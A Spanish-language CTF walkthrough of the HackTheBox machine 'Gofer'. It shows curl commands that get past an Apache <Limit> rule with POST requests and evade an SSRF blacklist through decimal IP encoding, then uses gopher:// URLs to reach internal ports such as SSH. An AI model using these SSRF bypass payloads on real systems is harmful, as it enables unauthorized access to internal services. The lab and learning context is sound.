 Hemos leído que las peticiones estaban siendo bloqueadas por una instrucción `<Limit>` en la configuración de Apache, una cosa que podemos probar siendo esta la instrucción es meterle un método de petición HTTP alternativo para comprobar si solo están filtrando por solo un listado típico de estos o uno solo (GET)

Enviando una petición a una ruta que no parece existir nos devuelve el mismo error de arriba, pero si cambiamos el método de la petición a POST ahora nos devuelve un 404

```bash
❯ curl -X POST -s http://proxy.gofer.htb/asd
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.56 (Debian) Server at proxy.gofer.htb Port 80</address>
</body></html>
```

Buscando archivos típicos que existirían en un servidor web, encontramos un `index.php`

```bash
❯ curl -X POST -s http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

Esto tiene una blacklist de strings típicos que se encuentran en un payload SSRF, pero si intentamos representarlo de cierta forma (en decimal) si funciona

```bash
❯ curl -X POST "http://proxy.gofer.htb/index.php?url=http://127.0.0.1"
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: /127 !</body></html>                                                                                      
❯ ip2dec 127.0.0.1
2130706433
❯ curl -X POST "http://proxy.gofer.htb/index.php?url=http://2130706433:80/aasdsa"
<!-- Welcome to Gofer proxy -->
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
... [snip]
```

Un protocolo típico el cual se suele probar en un SSRF para ver si puedes hacer más cosas fuera de HTTP es [gopher](https://es.wikipedia.org/wiki/Gopher), ya que permite la transmisión de cadenas de texto por TCP sin más a través de la URL, un ejemplo podría ser

`gopher://127.0.0.1/_hola`
 
Especificando el puerto en la URL podremos enviar datos a distintos puertos internos del servidor, como por ejemplo el SSH

```bash
❯ curl -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:22/asd"
<!-- Welcome to Gofer proxy -->
SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u1
Invalid SSH identification string.
1
```
